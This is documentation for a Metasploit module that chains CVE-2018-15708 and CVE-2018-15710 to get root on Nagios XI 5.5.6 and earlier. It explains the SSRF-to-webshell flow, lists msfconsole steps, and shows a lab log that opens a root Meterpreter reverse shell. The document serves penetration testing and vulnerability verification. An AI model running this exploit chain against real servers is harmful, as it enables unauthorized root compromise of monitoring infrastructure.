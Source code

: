 ## Vulnerable Application

This module exploits two vulnerabilities in Nagios XI <= 5.5.6:
CVE-2018-15708 which allows for unauthenticated remote code execution
and CVE-2018-15710 which allows for local privilege escalation.
When combined, these two vulnerabilities allow execution of arbitrary
commands as root.

The exploit works as follows:

- A local HTTPS server is setup. When it is reached, this server responds with a payload.
- By crafting a malicious request, we make the target host send a request to our HTTPS server.
  - The local HTTPS server must be reachable from the Nagios host.
  - The `RSRVHOST` and `RSRVPORT` options are used to specify the HTTPS server host and port.
- A PHP webshell and payload executable are uploaded via `magpie_debug.php`.
- A command is executed via the webshell. This command elevates privileges and runs the payload executable.

## Verification Steps

Download a vulnerable version of the Nagios XI virtual appliance:

* https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.4.10-64.ova
* https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.4.13-64.ova
* https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.5.0-64.ova
* https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.5.6-64.ova

Or download a [vulnerable application installer](https://www.nagios.com/downloads/nagios-xi/older-releases/) and follow the
[installation instructions](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf).

Metasploit:

1. `msfconsole`
1. `use exploit/linux/http/nagios_xi_magpie_debug`
1. `set RHOSTS [IP]`
1. `set RSRVHOST [IP]`
1. `exploit`
1. You should get a new session with *root* privileges

## Options

### RSRVHOST

IP address at which the local HTTPS server can be reached.
Most of the time it will be a public IP (e.g. your router IP if you have port forwarding).

### RSRVPORT

Port at which the local HTTPS server can be reached.

## Scenarios

## NagiosXI 5.5.6 (x64) virtual appliance

```
msf6 > use exploit/linux/http/nagios_xi_magpie_debug
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_magpie_debug) > set rhosts 10.1.1.113
rhosts => 10.1.1.113
msf6 exploit(linux/http/nagios_xi_magpie_debug) > set rsrvhost 10.1.1.114
rsrvhost => 10.1.1.114
msf6 exploit(linux/http/nagios_xi_magpie_debug) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.1.1.114:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Found MagpieRSS.
[*] Using URL: https://0.0.0.0:8080/iRtxnl8L
[*] Local IP: https://10.1.1.114:8080/iRtxnl8L
[*] Server started.
[*] Uploading to /usr/local/nagvis/share/fbHGUhauqtV.php ...
[+] fbHGUhauqtV.php uploaded successfully!
[*] Using URL: https://0.0.0.0:8080/YvyES7YlFee8R
[*] Local IP: https://10.1.1.114:8080/YvyES7YlFee8R
[*] Server started.
[*] Uploading to /usr/local/nagvis/share/nYRTioXKBam ...
[+] nYRTioXKBam uploaded successfully!
[*] Checking PHP web shell: /nagvis/fbHGUhauqtV.php
[+] Success! Commands executed as user: uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
[*] Attempting privilege escalation ...
[*] Sending stage (3008420 bytes) to 10.1.1.113
[*] Meterpreter session 1 opened (10.1.1.114:4444 -> 10.1.1.113:42314) at 2021-03-16 02:58:20 -0400
[+] Deleted /usr/local/nagvis/share/fbHGUhauqtV.php
[+] Deleted /usr/local/nagvis/share/nYRTioXKBam
[!] This exploit may require manual cleanup of '/var/tmp/hRyNmrQHZAq.nse' on the target
[*] Server stopped.

msf6 exploit(linux/http/nagios_xi_magpie_debug) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.5.1804 (Linux 3.10.0-862.14.4.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
